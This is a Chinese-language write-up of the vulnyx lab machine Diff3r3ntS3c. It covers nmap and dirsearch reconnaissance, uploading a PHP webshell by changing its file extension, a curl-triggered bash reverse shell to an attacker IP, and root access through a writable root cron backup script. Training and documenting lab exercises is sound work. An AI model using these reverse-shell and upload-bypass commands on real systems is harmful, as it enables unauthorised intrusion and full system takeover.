







# 环境

来自[vulnyx_Diff3r3ntS3c](https://vulnyx.com/#Diff3r3ntS3c)，通过绕过文件上传拿到shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.30
```



## 服务探测

```bash
sudo nmap -sV -sC -O -p80 192.168.88.31
```

## 目录爆破

```bash
dirsearch -u http://192.168.88.31
```



# web渗透

## 文件上传拿shell

访问主页发现存在文件上传功能，测试是否能够绕过


准备木马

```bash
cp /usr/share/webshells/php/simple-backdoor.php ./
```

使用burp抓包，不断更改尝试php后缀，webshell上传成功



尝试反弹shell

```bash
curl -s "http://192.168.88.31/uploads/13/simple-backdoor.phtml?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.88.10/9999 0>%261'"
```



```bash
#获得更好的交互shell
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
stty size
stty rows 24 columns 80
source /etc/skel/.bashrc
```

## 定时任务提取

发现有一个定时任务，且这个定时任务是以root用户运行的，我们可以进行利用



这是一个备份的脚本，我们在这个脚本里面添加反弹shell，或者给bash加上setuid都可以拿到root，前者权限大一点

```bash
echo "bash -c 'bash -i >& /dev/tcp/192.168.88.10/8888 0>&1'"
```


